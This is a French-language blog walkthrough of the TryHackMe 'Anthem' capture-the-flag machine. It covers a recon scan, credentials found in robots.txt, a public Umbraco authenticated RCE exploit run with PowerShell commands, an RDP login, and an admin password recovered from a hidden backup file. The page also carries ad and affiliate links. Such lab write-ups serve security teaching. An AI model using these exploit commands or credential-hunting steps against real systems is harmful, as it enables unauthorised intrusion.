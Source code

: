 ```yaml
---
title: Anthem - TryHackMe
date: 2024-03-25 13:52:30 -0500
description: Anthem sur TryHackMe est une machine Windows facile pour les débutants. L'exploitation implique la découverte de mots de passe dans des fichiers web, l'accès à un CMS Umbraco, l'utilisation d'un exploit RCE pour obtenir un shell, et la recherche et l'utilisation d'un mot de passe administrateur pour l'escalade de privilèges.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking]
image:
    path: https://i.ibb.co/fqf0HnY/Copie-de-Manager-1.png
---
```



- **[The Best Academy to Learn Hacking](https://affiliate.hackthebox.com/nenandjabhata)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Reconnaissance
Avec un petit scan de nmap, je trouve ces 2 ports qui sont ouvert
```terminal
└─# /home/blo/tools/nmapautomate/nmapauto.sh $ip
Scanning 10.10.26.182 [65535 ports]
Discovered open port 3389/tcp on 10.10.26.182
Discovered open port 80/tcp on 10.10.26.182
```
- RDP ouvert sur le 3389
- Un site Web Disponible sur le port 80

Dans le site web je trouve le fichier `/robots.txt` qui contient un mot de passe `UmbracoIsTheBest!`, Donc alors maintenant il faut trouver un utilisateur pour ce mot de passe
- Dans le Blog je trouve un poeme avec les mots suivantes:
```
Born on a Monday,
Christened on Tuesday,
Married on Wednesday,
Took ill on Thursday,
Grew worse on Friday,
Died on Saturday,
Buried on Sunday.
That was the end…       
```
Je copie ce texte et je fais une recherche sur Google, puis je trouve que l'utilisateur qui a fait le poem s'appelle `Solomon Grundy` en faisant reference au mail qui se trouve dans le [We are Hiring](http://10.10.74.33/archive/we-are-hiring/) qui est : `JD@anthem.com`, c'est a dire que c'est l'email de `Jane Doe`, alors le meme cas ici c'est de prendre les premieres lettre de l'utilisateur `Solomon Grundy` et ce sera `SG@anthem.com` et d'acceder avec le mot de passe `UmbracoIsTheBest!` que j'avais deja trouver

### L'acces Initial
Ok, maintenant j'ai un acces administrateur sur le CMS.
>Chaque fois que je trouve un CMS, je commence toujours par checker sur Google pour des exploits
>{: .prompt-info}

Alors en faisant quelque recherches je trouve un Exploit sur Github [Umbraco-RCE) Remote Code Execution ](https://github.com/noraj/Umbraco-RCE)
[![exploit](https://i.ibb.co/9T90bDT/exploit.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}
L'exploit fonctionne, alors je vais lister les fichiers disponibles avec `powershell` et la commande `ls`
```sh
└─# python3 umbraco.py -u SG@anthem.com -p 'UmbracoIsTheBest!' -i http://10.10.74.33/ -c powershell.exe -a 'ls'


    Directory: C:\windows\system32\inetsrv


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       05/04/2020     21:51                Config                                                                
d-----       05/04/2020     21:51                de-DE                                                                 
d-----       05/04/2020     11:27                en                                                                    
d-----       05/04/2020     11:27                en-US                                                                 
d-----       05/04/2020     21:51                es-ES                                                                 
d-----       05/04/2020     21:51                fr-FR                                                                 
d-----       05/04/2020     21:51                it-IT                                                                 
d-----       05/04/2020     21:51                ja-JP                                                                 
d-----       05/04/2020     21:51                ko-KR                                                                 
d-----       05/04/2020     21:51                ru-RU                                                                 
d-----       05/04/2020     21:51                zh-CN                                                                 
d-----       05/04/2020     21:51                zh-TW                                                                 
-a----       05/04/2020     11:27         119808 appcmd.exe                                                            
-a----       15/09/2018     08:14           3810 appcmd.xml                                                            
-a----       05/04/2020     11:27         181760 AppHostNavigators.dll                                                 
-a----       05/04/2020     11:26          80896 apphostsvc.dll                                                        
-a----       05/04/2020     11:27         406016 appobj.dll                                                            
-a----       05/04/2020     11:26         131072 aspnetca.exe                                                          
-a----       05/04/2020     11:27          40448 authanon.dll                                                          
-a----       05/04/2020     11:26          24064 cachfile.dll                                                          
```

D'ici on peux creer un shell en `.ps1`, puis la mettre sur la machine et d'avoir un Shell. Mais aussi comme le RDP est deja ouvert, alors je vais voir quels sont les utilisateurs disponible

```sh
└─# xfreerdp /v:10.10.77.208 /u:SG /p:UmbracoIsTheBest! /sec:tls
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - CN = WIN-LU09299160F
[01:11:19:471] [31485:31486] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[01:11:19:472] [31485:31486] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
```

[![user.txt](https://i.ibb.co/FwwBvdk/a1.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}
Je trouve le flag user dans le Bureau `THM{NOOT_NOOT}`

## Privilege Escalation
Maintenant finit avec le user, il faut donc elever nos privilege et etre root sur la Machine.
Dans la room, on me donne un hint sur le mot de passe de l'admin en disant `it's hidden`. Alors je vais afficher tous les fichiers cachee sur la machine

[![Hidden Files](https://i.ibb.co/sRCWFsd/a2.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

En revenant a mon `C:\` je trouve un nouveau Dossier qui s'appel `backup` et un fichier `restore`.
[![backup](https://i.ibb.co/GpPw2V4/a3.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

J'avais pas les permissions necessaires pour ouvrir ce fichier, donc j'ai pu le modifier dans les proprietes et ensuite j'affiche le contenue :

[![Admin Pass](https://i.ibb.co/2FwSswt/a4.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

J'utilise comme le mot de passe administrator pour me connecter au `cmd` et ca marche :

[![Rooted](https://i.ibb.co/g4D8Wqr/a5.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}



## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
[Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/46153)
[Nishang PowerShells](https://github.com/samratashok/nishang/tree/master/Shells)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
